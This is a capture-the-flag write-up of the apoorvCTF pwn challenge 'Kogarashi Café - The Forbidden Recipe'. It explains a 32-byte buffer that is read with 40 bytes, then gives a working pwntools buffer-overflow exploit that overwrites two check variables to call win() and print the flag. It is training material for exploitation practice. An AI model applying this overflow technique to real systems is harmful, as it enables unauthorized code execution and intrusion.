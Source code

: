```yaml
---
date: 2025-03-07 21:15:53 +02:00
categories: [apoorvCTF, Pwn]
tags: [Pwn, CTF, apoorvCTF]
---
```


This is a writeup of the Pwn challenge Kogarashi Café - The Forbidden Recipe by [apoorvCTF](https://apoorvctf.iiitkottayam.ac.in/) 
#### Points: 173
# Premise
The final test. One last order, one last chance. Choose carefully—the café remembers.

`nc chals1.apoorvctf.xyz 3002`
## Challenge files:

[forbidden_recipe](https://github.com/CSYClubIIITK/CTF-Writeups/blob/main/ApoorvCTF-25-Writeups/BinExp/Kogarashi%20Caf%C3%A9%20-%20The%20Forbidden%20Recipe/files/forbidden_recipe)

# Observations
Looking at the challenge file, we have a single executable, we as per usual start by running file and checksec against it:

![file_checksec](/assets/images/apoorvCTF/cafe3/file_checksec.png)

As seen previously, we're working with a 32 bit executable with few settings for protection.

We again use [Detect it Easy (DIE)](https://github.com/horsicq/Detect-It-Easy) to see what lang the program is written in.

![DIE](/assets/images/apoorvCTF/cafe3/DIE.png)

As we can see, the program looks like it was made in C/C++. Our next step from here is to load the program into [IDA](https://hex-rays.com/ida-free)

We opening the program, and observe the following functions since they look interesting
![IDA functions](/assets/images/apoorvCTF/cafe3/IDA_functions.png)

We can start off by checking main(), as we can see it doesnt do much, other than calling vuln() so we proceed to it.
![main functions](/assets/images/apoorvCTF/cafe3/IDA_main.png)

Here we see the program prints a welcome string, and reads some input from the user, there are also 2 additional varialbes that are checked, and if their contents match `0xC0FF33` and `0xDECAFBAD` we get a call to the win() function.
![order_coffee function](/assets/images/apoorvCTF/cafe3/IDA_vuln.png)

The user input variable has a size of 32 characters, but the read function reads 40 characters, we know we need to overwrite 2 variables, and what values they need to be, so we'll keep this in mind going forwards

Here in the win function, the execution flow is quite straightforward, it opens the flag.txt file and prints out its contents
![brew_coffee function](/assets/images/apoorvCTF/cafe3/IDA_win.png)

# Solution
With all of our findings, I've developed the following python script, using [pwntools](https://github.com/Gallopsled/pwntools)

```python
from pwn import *

padding = b"A" * 32
coffee = p32(0x00C0FF33)
decafbad = p32(0xDECAFBAD)

#Craft payload string, we need to add the payload first, then the two variables in reversed order
payload = padding + decafbad + coffee

#run program
#target = process('./forbidden_recipe')
target = remote('chals1.apoorvctf.xyz', 3002)

target.recvline()
target.recvline()
target.sendline(payload)

target.interactive()
```

Running this script gives us the following output:
```bash
[+] Starting local process './forbidden_recipe': pid 1234567
[*] Switching to interactive mode
[*] Process './forbidden_recipe' stopped with exit code 0 (pid 1234567)
Barista: "Ah... I knew you'd figure it out. One moment."
Barista: "Ah... I see you've returned for the special blend."
apoorvctf{d3caf_is_bad_f0r_0verfl0ws}

[*] Got EOF while reading in interactive
$
```

Which gives us the flag:
> apoorvctf{d3caf_is_bad_f0r_0verfl0ws}
{: .prompt-tip }


# Tools and sources used:
- [IDA Free](https://hex-rays.com/ida-free)
- [pwntools](https://github.com/Gallopsled/pwntools)
- [Detect It Easy](https://github.com/horsicq/Detect-It-Easy)
- [checksec](https://github.com/slimm609/checksec)
